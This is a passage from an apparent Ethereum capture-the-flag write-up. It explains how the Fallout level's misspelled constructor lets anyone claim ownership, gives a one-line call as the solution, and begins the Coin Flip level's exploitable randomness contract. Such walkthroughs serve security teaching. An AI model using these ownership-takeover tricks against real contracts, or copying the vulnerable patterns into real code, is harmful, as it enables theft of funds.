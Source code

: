```solidity
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

The flaw in this contract is that the constructor name is misspelled so the solidity considers it a function rather than constructor. Now we can simply call the function `Fal1out()` to become the owner of the contract.

> #### Solution:
> ```js
> await contract.Fal1out(); //misspelled constructor
> ```
<hr>

## 3 Coin Flip
We have to make 10 consecutive wins in the flip game to complete this level.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
```